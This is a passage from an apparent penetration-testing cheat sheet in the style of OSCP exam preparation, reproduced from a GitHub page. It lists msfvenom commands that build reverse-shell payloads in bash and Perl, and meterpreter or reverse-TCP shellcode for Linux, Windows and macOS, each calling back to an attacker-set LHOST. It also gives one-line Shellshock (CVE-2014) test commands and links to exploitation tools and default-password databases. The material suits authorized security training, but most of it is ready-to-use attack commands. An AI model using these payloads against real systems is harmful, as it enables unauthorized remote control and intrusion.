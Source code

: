 ```

* Bash     
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

* Perl     
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

### Shellcode
For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

* Linux Based Shellcode     
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

* Windows Based Shellcode     
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

* Mac Based Shellcode     
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

## Shellshock

* CVE-2014-6271    
`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

* CVE-2014-7169     
`env X='() { (a)=>\' bash -c "echo date"; cat echo`

* CVE-2014-7186    
`bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"`

* CVE-2014-7187
`(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"` 

* CVE-2014-6278
`env X='() { _; } >_[$($())] { echo CVE-2014-6278 vulnerable; id; }' bash -c :` 

## References
* [OSCP Exam Guide](https://support.offensive-security.com/#!oscp-exam-guide.md) - MUST read!
* [The Magic of Learning](http://bitvijays.github.io/) - a real treasure trove!
* [FuzzySecurity](http://www.fuzzysecurity.com) - this is something you must bookmark... period. I found the [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html) especially useful.
* [WMIC reference/guide](https://www.computerhope.com/wmic.htm)
* [SysInternals](https://docs.microsoft.com/en-us/sysinternals/) - this is a must have for working on Windows boxes.
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
* [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
* [ColdFusion for PenTesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
* [ColdFusion Path Traversal](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
* [Penetration Testing Tools Cheat Sheet](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) - Good read. Check out other cheat sheets on this page too!
* [fimap](https://github.com/kurobeats/fimap) - LFI/RFI scanner
* [Changeme](https://github.com/ztgrace/changeme) - default password scanner
* [CIRT Default Passwords DB](https://cirt.net/passwords)
```